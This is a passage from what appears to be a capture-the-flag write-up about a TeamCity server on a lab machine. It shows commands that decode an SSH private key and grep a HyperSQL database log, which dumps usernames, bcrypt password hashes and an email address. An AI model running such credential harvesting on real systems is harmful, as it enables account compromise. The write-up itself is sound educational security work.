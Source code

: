 ```

oxdf@hacky$ cat id_rsa | grep -v OPEN | base64 -d | strings -n 10
openssh-key-v1
john@runner

```

Or better is to let `ssh-keygen` do it:

```

oxdf@hacky$ 
3072 SHA256:YBrlVeYeOPwQhNizkxaVtrtBTlLZ2/T5XBekbmDbEL4 john@runner (RSA)

```

#### From Database Log File

TeamCity is configured to use a HSQL (HyperSQL) database:

```

tcuser@647a82f29ca0:/data/teamcity_server/datadir$ cat config/database.hsqldb.properties.dist 
# This is a sample file for configuring TeamCity to use an internal database.
# To make it effective, copy it to the "database.properties" file and modify the settings
# according to your environment.
# Do not modify this file, it will be overwritten on the TeamCity server start-up.
# See documentation at https://www.jetbrains.com/help/teamcity/?Setting+up+an+External+Database

# Database: HSQLDB (HyperSonic) version 2.x 

connectionUrl=jdbc:hsqldb:file:$TEAMCITY_SYSTEM_PATH/buildserver

# The maximum number of connections TeamCity can open with this database.
maxConnections=50

```

The database is Java, and the files for the database are located in `system`:

```

tcuser@647a82f29ca0:/data/teamcity_server/datadir$ ls system/
artifacts         buildserver.lck  buildserver.properties  buildserver.tmp  dataDirectoryInitialized
buildserver.data  buildserver.log  buildserver.script      caches           pluginData

```

Many of these files are binary, but the `buildserver.log` file is ASCII text. It contains a bunch of SQL statements. Running `grep` to get the ones inserting entries into the `USERS` table returns a list of users:

```

tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ cat buildserver.log | grep -i "INSERT INTO USERS" | sort -u
INSERT INTO USERS VALUES(12,'h454nsec3474','$2a$07$VaNzEE.ZLro6MP3u.qDQsOEwyZK5OHA4wrrxoaBeMpeIzsTH4uBsO',NULL,'',1714140041318,'BCRYPT')
INSERT INTO USERS VALUES(12,'h454nsec3474','$2a$07$VaNzEE.ZLro6MP3u.qDQsOEwyZK5OHA4wrrxoaBeMpeIzsTH4uBsO',NULL,'',1714140583885,'BCRYPT')
INSERT INTO USERS VALUES(12,'h454nsec3474','$2a$07$VaNzEE.ZLro6MP3u.qDQsOEwyZK5OHA4wrrxoaBeMpeIzsTH4uBsO',NULL,'',NULL,'BCRYPT')
INSERT INTO USERS VALUES(12,'h454nsec3474',NULL,NULL,'',NULL,NULL)
INSERT INTO USERS VALUES(12,'h454nsec3474',NULL,NULL,NULL,NULL,NULL)
INSERT INTO USERS VALUES(13,'city_adminhgzh','$2a$07$UeTpL1rQsHZlxS7FmWmHaOKj81yjSQZUX0fNSt68ZbziDQVUostHC',NULL,'angry-admin@funnybunny.org',1714140923666,'BCRYPT')
```